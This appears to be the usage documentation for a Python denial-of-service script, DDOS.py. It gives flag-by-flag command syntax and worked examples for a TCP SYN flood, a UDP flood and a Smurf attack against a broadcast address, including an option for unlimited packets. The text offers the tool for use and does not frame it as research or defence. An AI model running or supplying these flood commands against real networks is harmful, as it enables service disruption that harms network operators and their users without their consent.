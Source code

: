 # Syntax to execute the DDOS Script

Example 1 : Execute  a TCP SYN attack
      
      python DDOS.py -toa tcp -fl syn -c X -d 192.168.1.9
      
      -toa : Type of attack you want to perform (TCP,UDP,etc.)
      -fl  : What kind of attack to perform in the above mentioned type (Syn flood, Reset flood , Ack flood, etc.)
      -c   : How many number of packets you want to push on the network while executing this script('X' denotes infinte number of packets)
      -d   : Destination network IP address
      
Example 2 : Execute UDP flood attack. Push 10 packets to destination.

      python DDOS.py -toa udpflood -c 10 -d 192.168.1.9
   
Example 3 : Execute a Smurf attack

      python DDOS.py -toa ping -fl pod -c X -d 192.168.1.15

In my case 192.168.1.15 is the broadcast address.


To display help command:
      
      python DDOS.py --help
